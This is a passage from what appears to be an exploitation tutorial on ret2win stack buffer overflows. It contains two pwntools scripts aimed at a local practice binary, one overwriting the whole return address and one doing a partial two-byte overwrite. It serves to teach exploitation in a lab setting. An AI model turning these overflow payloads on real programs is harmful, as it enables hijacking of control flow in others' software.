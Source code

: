 ```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1

Actually this is going to by more like a off-by-2 in the stored PC in the stack. Instead of overwriting all the return address we are going to overwrite **only the last 2 bytes** with `0x06c4`.

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

You can find another off-by-one example in ARM64 in [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/), which is a real off-by-**one** in a fictitious vulnerability.
